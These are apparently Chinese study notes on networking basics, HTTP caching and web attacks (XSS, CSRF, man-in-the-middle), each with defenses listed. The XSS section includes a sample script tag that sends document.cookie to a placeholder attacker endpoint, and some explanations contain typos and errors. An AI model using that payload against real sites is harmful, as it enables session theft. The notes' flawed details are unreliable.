 ```yaml
---
title: 网络
date: 2022-05-04 11:08:20
tags: 知识点
categories: [网络]
--- 
```


## OSI 7 层参考模型

## TCP/IP 协议

1. 应用层(`HTTP`/`HTTPS`/`DNS`)
2. 传输层(`TCP`/`UDP`)
3. internet 层(`IP`)
4. 网络接口层(`物理接口`)

### TCP

**Transmisson Control Prorocol**

1. 连接建立
2. 可靠性传输
   特点： 三次握手四次挥手

### UDP

**User DataGram Protocol**

1. 非连接，不可靠传输方式
2. 效率高，速度快，适合音频和视频

### DNS

**Domain Name System**
域名解析系统
怎么查找域名：
DNS 域名解析采用的是递归查询的方式，过程，DNS 缓存>根域名服务器>根域名下一级

## HTTP 协议

Hypertext Transfer Protocol
超文本传输协议

## 缓存

数据库缓存、服务器端缓存（`nginx`、`CDN 缓存`）、浏览器缓存  
浏览器缓存由包含很多内容：`HTTP 缓存`、`indexDB`、`cookie`、`localstorage `等等

### HTTP 缓存

强缓存和协商缓存的区别就是，强缓存是不需要发请求到服务器的，而协商缓存是需要浏览器发送请求到服务器判断本地的缓存是否失效，若不失效则不请求服务器，反之请求服务器获取最新资源

### 强缓存

命中强缓存时，状态码为 200（Size 列标识为 from cache）的响应请求，利用 `Expire`s 和` Cache-Control` 控制强缓存。

1. Expires
   该值是响应头的字段，指定缓存到期的时间， `Expires=时间`，该时间为绝对时间，`Last-Modify` 结合使用
2. Cache-Control
   该值是响应头的字段，指定缓存到期的时间，`Cache-Control=max-age+时间`，该事件为相对时间

`Cache-Control` 优先级比 `Expires` 高
优点：  
服务器配置有限，降低服务器压力，1 台服务器能做到 10 台服务器的能力

> <- Expires: xxxx
> <- Cache-Control:max-age=600

### 协商缓存

命中协商缓存时，状态码为 304，利用 `Last-Modify/If-Modify-Since`

1. Last-Modify/If-Modify-Since
   第一次请求服务器，返回时会带上 `Last-Modify` 的响应头，标识着该资源最后修改时间，第二次请求时会带上 `If-Modify-since` 请求头，值为第一次响应的 `Last-Modify` 值，服务器会根据 `If-Modify-since` 判断是否命中缓存，**如果命中则不请求服务器，返回 304**，不返回 `Last-Modify`  
   第一次响应： `Last-Modify`  
   第二次请求： `If-Modify-since`
2. Etag/If-None-Match
   `Etag/If-None-Match` `返回的是一个校验码，Etag` 保证每个资源时唯一的，资源的变化都为导致 Etag 改变，服务器根据浏览器发送的 `If-None-Match` 判断是否命中缓存
   两者会优先验证 `Etag`,两种区别：

- 精度问题，第一种的精度时精确到秒，当资源的改变在秒级的时候，不太准确。所以由了 `Etag`
- 文件定期生成，当内容一样时，无法使用 `Last-Modify` 这一套
- 有可能存在服务器没有准确获取文件修改时间等，`Last-Modify` 也不能使用

> <- last-modifed: xxx
> -> if-modified-since: xxx
> <- etag: bbb
> -> if-noe-match: bbb

# web 安全

## 浏览器如何获取到 Cookie

- 利用接口响应的 Set-Cookie 字段  
  有哪些属性

1. domain
2. max-age、Express
3. httponly
4. name=value

## XSS (Cross-Site-Script) 跨站脚本攻击

恶意攻击者，将一些恶意代码插入到网页，当用户访问的时候自动执行这段代码，从而达到攻击者目的

1. 反射型
   特点： 一次性  
   用户点开带有恶意的 url（含有 script），浏览器将此段发送给服务端，服务端返回客户端，此时浏览器识别到可执行代码将其执行
2. 存储型
   特点：恶意代码存储到服务器  
   攻击者提交含有 script 标签的恶意代码表单到服务器，服务端将其保存，展示给其他用户时执行恶意代码

### 实现过程

1. 将 `<script scr="https://攻击者接口?cookie=document.cookie"> </script>`， 注册成用户名， 提交给服务端，服务端保存
2. 用户登录，如果查看到这个攻击者的账号信息相关，那么会执行恶意代码，将 cookie 拿到，发送到攻击者接口
3. 攻击者事先会收集各种接口，找到相关可以获取到用户的接口
4. 通过 cookie 获取到用户信息（手机号等）等

### 用途

1. 冒充身份
2. 刷点击（注入文章地址）
3. 弹广告（注入一段创建弹窗的代码）
4. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 输入过滤，对于特殊符号等不允许提交
2. httponly
3. 转义 HTML 比如： `< => &lt` 、 `> => &gt`

## CSRF (Cross-Site-Request-Forgery) 跨站点请求伪造

诱导受害者去到攻击者的网站，攻击者网站发起了相关请求，并且带上了受害者 cookie，从而可以做一些恶意的操作

前提： 浏览器没有严格执行同源政策，请求所在网站必须和请求的接口同源，就有可能发生 CSRF

### 实现过程

1. 受害者登录信任网站
2. 未关闭含有 cookie 的信任网站
3. 诱导受害者去攻击者网站（如果配合 XSS 此时可能会直接跳转，或者弹窗诱导到攻击者网站）
4. 在攻击者网站（用隐藏表单自动发送请求，img/src 自动 get 请求等骚操作...）发起信任网站相关接口，此时会携带用户的 cookie，冒充用户

### 用途

1. 冒充身份
2. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 用验证码，信任网站开启验证码，而攻击者网站没办法获取正确验证码
2. Referer ，表明请求的站点地址，但是有可能存在伪造 `Referer` 头
3. token，客户端接收服务端的 token，保存在隐藏区域（本地存储，隐藏的 html 元素，代码内存等），请求带上 token
4. 使用带有同源政策的浏览器，升级到默认开启严格模式版本

## 中间人攻击

是在数据传输时发生的攻击手段。截取 http 在传输时数据包，获取用户信息，篡改信息，篡改密钥
